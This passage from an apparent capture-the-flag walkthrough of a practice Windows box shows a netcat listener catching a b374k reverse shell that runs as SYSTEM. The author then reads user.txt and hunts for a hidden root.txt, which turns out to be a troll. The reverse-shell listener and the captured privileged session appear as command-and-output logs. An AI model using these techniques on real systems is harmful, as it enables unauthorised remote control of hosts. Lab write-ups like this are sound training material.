 
I get a shell as system:

    
    
    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.112.
    Ncat: Connection from 10.10.10.112:49277.
    b374k shell : connected
    
    Microsoft Windows [Version 6.0.6002]
    Copyright (c) 2006 Microsoft Corporation.  All rights reserved.
    
    C:\Windows\Temp>whoami
    nt authority\system
    

I can finally get `user.txt`:

    
    
    C:\Users\nginx\Desktop>type user.txt
    5f158aa8...
    

## root.txt

### Enumeration

Since I’m system, I should have `root.txt` as well. It’s a hidden file, but I
can see it with `dir /a`:

    
    
    C:\Users\Administrator\Desktop>dir /a
     Volume in drive C has no label.
     Volume Serial Number is 7882-4E78
    
     Directory of C:\Users\Administrator\Desktop
    
    03/11/2018  13:16    <DIR>          .
    03/11/2018  13:16    <DIR>          ..
    06/10/2018  14:38               697 chest.lnk
    02/07/2018  11:56         3,579,384 hardentools.exe
    05/07/2018  17:23               971 Immunity Debugger.lnk
    06/10/2018  14:33             1,519 root.txt
                   4 File(s)      3,582,571 bytes
                   2 Dir(s)  18,284,122,112 bytes free
    

But again, it’s another troll:

    
    
    C:\Users\Administrator\Desktop>type root.txt
    type root.txt
    
                        * * *
    